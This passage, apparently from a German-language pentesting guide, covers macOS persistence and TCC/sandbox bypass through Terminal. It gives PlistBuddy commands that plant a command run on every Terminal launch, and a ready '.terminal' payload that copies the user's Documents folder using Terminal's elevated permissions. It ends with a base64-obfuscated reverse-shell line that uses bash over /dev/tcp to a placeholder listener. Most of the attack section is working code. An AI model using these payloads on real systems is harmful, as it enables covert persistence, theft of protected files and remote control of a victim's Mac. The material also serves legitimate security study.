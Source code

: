 
Sie können dies über die CLI hinzufügen mit:

{% code overflow="wrap" %}
```bash
# Add
/usr/libexec/PlistBuddy -c "Set :\"Window Settings\":\"Basic\":\"CommandString\" 'touch /tmp/terminal-start-command'" $HOME/Library/Preferences/com.apple.Terminal.plist
/usr/libexec/PlistBuddy -c "Set :\"Window Settings\":\"Basic\":\"RunCommandAsShell\" 0" $HOME/Library/Preferences/com.apple.Terminal.plist

# Remove
/usr/libexec/PlistBuddy -c "Set :\"Window Settings\":\"Basic\":\"CommandString\" ''" $HOME/Library/Preferences/com.apple.Terminal.plist
```
{% endcode %}

### Terminal-Skripte / Andere Dateierweiterungen

* Nützlich, um die Sandbox zu umgehen: [✅](https://emojipedia.org/check-mark-button)
* TCC-Umgehung: [✅](https://emojipedia.org/check-mark-button)
* Terminal wird verwendet, um FDA-Berechtigungen des Benutzers zu nutzen

#### Standort

* **Überall**
* **Auslöser**: Terminal öffnen

#### Beschreibung & Ausnutzung

Wenn Sie ein [**`.terminal`**-Skript](https://stackoverflow.com/questions/32086004/how-to-use-the-default-terminal-settings-when-opening-a-terminal-file-osx) erstellen und öffnen, wird die **Terminal-Anwendung** automatisch aufgerufen, um die dort angegebenen Befehle auszuführen. Wenn die Terminal-App über besondere Berechtigungen verfügt (wie TCC), wird Ihr Befehl mit diesen besonderen Berechtigungen ausgeführt.

Versuchen Sie es mit:
```bash
# Prepare the payload
cat > /tmp/test.terminal << EOF
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE plist PUBLIC "-//Apple//DTD PLIST 1.0//EN" "http://www.apple.com/DTDs/PropertyList-1.0.dtd">
<plist version="1.0">
<dict>
<key>CommandString</key>
<string>mkdir /tmp/Documents; cp -r ~/Documents /tmp/Documents;</string>
<key>ProfileCurrentVersion</key>
<real>2.0600000000000001</real>
<key>RunCommandAsShell</key>
<false/>
<key>name</key>
<string>exploit</string>
<key>type</key>
<string>Window Settings</string>
</dict>
</plist>
EOF

# Trigger it
open /tmp/test.terminal

# Use something like the following for a reverse shell:
<string>echo -n "YmFzaCAtaSA+JiAvZGV2L3RjcC8xMjcuMC4wLjEvNDQ0NCAwPiYxOw==" | base64 -d | bash;</string>
```